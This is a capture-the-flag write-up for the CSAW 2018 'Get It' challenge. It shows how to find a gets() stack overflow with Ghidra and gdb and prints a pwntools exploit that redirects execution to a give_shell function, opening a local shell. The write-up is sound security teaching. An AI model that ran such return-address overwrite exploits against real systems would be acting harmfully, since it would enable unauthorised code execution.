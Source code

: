 # Csaw Quals 2018 Get It

Let's take a look at the binary:

```bash
$    file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
$    pwn checksec get_it
[*] '/Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./get_it
Do you gets it??
15935728
```

So we can see that we are given a `64` bit binary, with a Non-Executable stack (that mitigation will be covered later). When we run it, we see that it prompts us for input. When we take a look at the main function in Ghidra, we see this:

```c
undefined8 main(void)

{
  char input [32];

  puts("Do you gets it??");
  gets(input);
  return 0;
}
```

So we can see that it makes a call to the `gets` function with the char buffer `input` as an argument. This is a bug. The thing about the `gets` function, is that there is no size restriction on the amount of data it will scan in. It will just scan in data until it gets either a newline character or EOF (or something causes it to crash). Because if this we can write more data to `input` than it can hold (which it can hold `32` bytes worth of data) and we will overflow it. The data that we overflow will start overwriting subsequent things in memory. Looking at this function we don't see any other variables that we can overwrite. However we can definitely overwrite the saved return address.

When a function is called, two values that are saved are the base pointer (points to the base of the stack) and instruction pointer (pointing to the instruction following the call). This way when the function is done executing and returns, code execution can pick up where it left off and the code knows where the stack is. These values make up the saved base pointer and saved return address, and in x64 the saved base pointer is stored at `rbp+0x0` and the saved instruction pointer is stored at `rbp+0x8`.

So when the `ret` instruction, the saved instruction pointer (stored at `rbp+0x8`) is executed. This address is on the stack, and we can reach it with the `gets` function call. So we will just overwrite it with a value we want, and we will decide what code the program executes. The offset between the start of our input and the return address is `40` bytes. The first `32` bytes come from the `input` char buffer we have to fill up. After that we can see there are no variables between `input` and the saved base pointer (if there was a stack canary that would be a different story, but I'll save that for later). After that we have `8` bytes for the saved base pointer, then we reach the saved instruction pointer. We can also see this in memory with gdb:

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:    push   rbp
   0x00000000004005c8 <+1>:    mov    rbp,rsp
   0x00000000004005cb <+4>:    sub    rsp,0x30
   0x00000000004005cf <+8>:    mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave
   0x00000000004005f7 <+48>:    ret
End of assembler dump.
gef➤  b *0x4005f1
Breakpoint 1 at 0x4005f1
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw18_getit/get_it
Do you gets it??
15935728
```

We set a breakpoint for right after the `gets` call:

```bash
Breakpoint 1, 0x00000000004005f1 in main ()
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
gef➤  x/g $rbp+0x8
0x7fffffffde98:    0x00007ffff7a05b97
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602670 - 0x602678  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "15935728"
```

So we can see that the return address i stored at `0x7fffffffde98`. Our input begins at `0x7fffffffde70`. This gives us a `0x7fffffffde98 - 0x7fffffffde70 = 0x28` byte offset (`0x28 = 40`). So we just have to write `40` bytes worth of input and we can write over the return address. That address will be executed when the `ret` instruction is executed, giving us code execution. The question is now what do we want to execute? Looking through the list of functions in Ghidra, we see that there is a `give_shell` function:

```c
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

This function looks like it just gives us a shell by calling `system("/bin/bash")`. In the assembly viewer we can see that it starts at `0x4005b6`. So we can just call the `give_shell` function by writing over the return address with `0x4005b6` and that should give us a shell. Putting it all together, we get the following exploit:

```c
from pwn import *

target = process("./get_it")
#gdb.attach(target, gdbscript = 'b *0x4005f1')

payload = ""
payload += "0"*40 # Padding to the return address
payload += p64(0x4005b6) # Address of give_shell in least endian, will be new saved return address

# Send the payload
target.sendline(payload)

# Drop to an interactive shell to use the new shell
target.interactive()
```

When we run it:

```bash
$    python exploit.py
[+] Starting local process './get_it': pid 2969
[*] running in new terminal: /usr/bin/gdb -q  "./get_it" 2969 -x "/tmp/pwndObRhj.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Do you gets it??
$ w
 23:38:26 up 1 min,  1 user,  load average: 1.77, 0.67, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               23:37    1:20   2.71s  0.14s /sbin/upstart --user
$ ls
exploit.py  get_it
```

Just like that we got a shell!
